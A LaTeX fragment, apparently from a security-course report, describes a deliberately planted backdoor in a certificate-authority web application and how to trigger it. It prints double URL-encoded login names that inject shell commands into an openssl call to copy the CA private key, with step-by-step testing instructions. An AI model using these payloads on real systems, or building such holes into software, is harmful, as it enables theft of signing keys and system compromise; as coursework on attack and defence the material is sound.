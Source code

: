 \documentclass[english]{article}
\begin{document}
{The \texttt{\%2520} are needed because the login name will get url-decoded two
times before being parsed by the Python API: the first time when we register,
and the second time when the webserver sends the request over HTTPS to the API
endpoint. \texttt{\%2520} decodes to \texttt{\%20} which decodes to a single
space. So, when parsed by python, the \texttt{openssl} command becomes:

\noindent
\texttt{openssl ... -subj '/email...CN='';echo hi>/alice.csr;echo ff>serial;cat private/cakey.pem>ff.pem''}

And we will get the CA private key listed as one of our certificates in the database!
Remember though that to login as that user we have to substitute all \texttt{"\%25"} with \texttt{"\%"} (basically, we have to manually url-decode once).


To test this backdoor:
\begin{itemize}
	\item Create a new user with login name (quotes included):\\ \texttt{';echo\%2520hi>/alice.csr;echo\%2520ff>serial;cat\%2520private/cakey.pem>ff.pem'}
	\item Login with the password you selected and with the following username:\\\texttt{';echo\%20hi>/alice.csr;echo\%20ff>serial;cat\%20private/cakey.pem>ff.pem'}
	\item Now click on "Manage certificate" and then on "Generate a new certificate".
	\item You should now see the private key of the CA as one of your certificates!
\end{itemize}



}{
	No backdoors for you guys, sorry!
}




\section{Risk Analysis and Security Measures}

\subsection{Assets}
\label{Assets}
\end{document}
